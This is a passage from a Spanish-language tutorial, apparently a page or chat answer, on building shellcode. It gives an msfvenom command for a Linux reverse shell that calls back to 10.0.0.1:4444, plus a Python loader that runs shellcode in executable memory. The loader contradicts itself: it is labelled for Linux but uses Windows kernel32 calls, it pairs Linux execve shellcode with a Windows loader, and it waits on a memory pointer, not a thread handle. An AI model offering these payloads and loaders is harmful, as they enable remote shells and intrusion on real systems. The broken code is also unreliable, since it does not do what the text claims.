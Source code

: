 
### 🛠️ Opción: Generar shellcode con Metasploit (`msfvenom`)

Metasploit tiene muchos payloads listos. Ejemplo para una **reverse shell en Linux**:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f python
```

Salida:

```python
buf =  b""
buf += b"\xda\xc5\xd9\x74\x24\xf4\xba..."
```

👉 Puedes pegar ese shellcode directamente en Python.

---

### 🧩 ¿Y cómo se usa un shellcode?

Un shellcode **se inyecta y ejecuta** con:

- buffer overflows,
- inyección de código,
- shellcode loaders en Python o C.

---

### ✅ Ejemplo completo de loader de shellcode en Python

Este loader ejecuta shellcode en memoria usando `ctypes` (solo en Linux o WSL):

```python
import ctypes

# Shellcode que lanza /bin/sh
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e" \
            b"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Crea un bloque de memoria ejecutable
ptr = ctypes.windll.kernel32.VirtualAlloc(None, len(shellcode), 0x3000, 0x40)
ctypes.memmove(ptr, shellcode, len(shellcode))

# Ejecuta el shellcode
ctypes.windll.kernel32.CreateThread(None, 0, ptr, None, 0, None)
ctypes.windll.kernel32.WaitForSingleObject(ptr, -1)
```

> ⚠️ Este ejemplo se adapta mejor a **Windows shellcodes de 32 bits**. En Linux se usa `mmap` con permisos de ejecución.

---

### 🧠 ¿Qué puedes hacer con esto?
